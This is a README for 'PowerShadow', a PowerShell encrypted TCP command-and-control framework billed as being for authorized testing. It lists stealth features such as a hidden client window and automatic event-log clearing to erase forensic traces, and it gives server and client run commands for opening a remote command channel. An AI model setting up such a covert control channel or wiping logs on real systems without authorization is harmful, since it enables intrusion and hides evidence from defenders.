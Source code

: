 # PowerShadow

PowerShadow is an advanced, encrypted TCP Command & Control (C2) framework written in PowerShell. It is designed for authorized security testing and educational purposes. PowerShadow features secure key derivation using PBKDF2, a hidden client window, and automated event log clearance on disconnect. The default TCP port is now **9090**.

> **WARNING:**  
> This tool is intended for **authorized and ethical** security testing only. Misuse of this tool may be illegal and unethical. Always obtain explicit permission before testing any system.

---

## Features

- **Encrypted Communication:**  
  Uses AES‑256 encryption in CBC mode with PKCS7 padding to secure both commands and output.

- **Secure Key Derivation:**  
  Derives the encryption key and IV from a user‑supplied passphrase (entered securely) and a shared salt using PBKDF2—avoiding hard‑coded keys.

- **Length‑Prefixed TCP Protocol:**  
  Implements a simple length‑prefixed protocol to reliably transmit encrypted messages over TCP.

- **Hidden Client Window:**  
  On Windows, the client’s PowerShell window is hidden for improved stealth.

- **Event Log Clearance:**  
  When the connection ends, the client automatically clears selected Windows and PowerShell event logs to reduce forensic traces.

- **Customizable Default Port:**  
  The default TCP port is **9090**. This can be modified via command‑line parameters.

---

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/yourusername/powershadow.git
   cd powershadow

## Execution
- **Server:**
```powershell
sudo pwsh ./powershadow.ps1 -Mode Server -Port 9090

- **Client:** 
.\powershadow.ps1 -Mode Client -ServerIP 192.168.137.134 -Port 9090
